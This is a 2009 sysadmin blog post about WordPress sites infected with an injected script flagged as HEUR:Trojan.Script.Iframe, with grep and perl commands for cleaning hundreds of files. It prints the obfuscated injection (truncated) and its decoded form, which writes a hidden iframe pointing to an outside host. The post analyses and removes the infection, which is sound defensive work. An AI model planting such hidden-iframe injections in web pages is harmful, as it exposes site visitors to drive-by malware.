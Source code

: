 ```yaml
---
published: true
comments: true
author: gerold-mercadero
date: '2009-03-22 12:25:15'
layout: post
slug: heurtrojanscriptiframe
status: publish
title: HEUR:Trojan.Script.Iframe
wordpress_id: '432'
categories:
- News
- Security
tags:
- virus
---
```


One of my friend asked for help about virus appearing on his sites (mostly WordPress sites).  I checked it out and my Kaspersky Internet Security blocked the pages from loading, so i downloaded the files manually and scanned html with Kaspersky to determine affected files.

![virus2](http://linuxsysadminblog.com/images/2009/03/virus2-220x300.gif)

I noticed that the affected files were PHP and HTML only and if you compare the code of the original WordPress files with the infected one you will see the difference.  Below are sample added codes/virus:

HTML files:
```
<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>
```
PHP files:
```
<?php echo '<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>'; ?>
```

**What it does**

I'm not a virus expert and I'm curios on what this portion of code does so i looked at it.  In our case the resulting text add this portion of code to the html or php files:

```
var fggge3="si";
var w345="pl";
var re6="ank.";
var rr="com";
var a="if";
var s="tt";
document.write('<'+a+'rame src="h'+s+'p://'+fggge3+''+w345+''+re6+''+rr+'/'+'qqp/'+''+''+'" style="d'+'isplay:n'+'one">');
var t=00001217
```

and you can see it tries to load an iframe:
```
<iframe src=http://siplank.com/qqp/ style=display:none>
```

**Virus Removal**

You can remove the virus by just deleting the code (sample above) on the affected files.  If you need to cleanup hundred of infected files (in our case more than 800) you can do the following:

* Get the list of infected files.  You can use grep to search for them
```
grep -Z -R "eval(String.fromCharCode(118,97,114" /path/to/site/* >> affected_file_list.txt
```
* Delete the codes by using perl/sed commands.  Repeat the commands for every files.
```
perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  /path/to/affected/file.htm
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"  /path/to/affected/file.php
```

Or create a bash/shell script to do the cleanup at once:
```
while read line
do
perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  $line
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"   $line
done < affected_file_list.txt
```

That's all.

I don't know how the attacker gained access to the files and inserted the codes because the file permissions are ok - maybe they gain ftp access.
